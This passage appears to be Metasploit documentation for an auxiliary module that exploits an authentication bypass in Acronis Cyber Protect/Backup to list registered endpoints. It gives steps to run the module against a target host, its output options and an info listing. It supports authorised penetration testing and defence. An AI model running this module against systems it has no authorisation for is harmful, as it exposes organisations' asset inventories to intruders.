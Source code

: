 You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`
- [ ] `set rhosts <ip-target>`
- [ ] `run`
- [ ] you should get a list of all endpoints that are registered at the appliance.

## Options
### OUTPUT
You can use option `table` to print output of the gather info to the console (default).
Choosing option `json` will store all information at a file in `json` format at the loot directory.
You can use this file in combination with `jq` for offline queries and processing.

## Scenarios
```msf
msf6 auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > info

       Name: Acronis Cyber Protect/Backup machine info disclosure
     Module: auxiliary/gather/acronis_cyber_protect_machine_info_disclosure
    License: Metasploit Framework License (BSD)
       Rank: Excellent

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Sandro Tolksdorf of usd AG.

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  OUTPUT     table            yes       Output format to use (Accepted: table, json)
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                        metasploit.html
  RPORT      9877             yes       The target port (TCP)
  SSL        true             no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The URI of the vulnerable Acronis Cyber Protect/Backup instance
  VHOST                       no        HTTP server virtual host

Description:
  Acronis Cyber Protect or Backup is an enterprise backup/recovery solution for all,
  compute, storage and application resources. Businesses and Service Providers are using it
  to protect and backup all IT assets in their IT environment.
  This module exploits an authentication bypass vulnerability at the Acronis Cyber Protect
```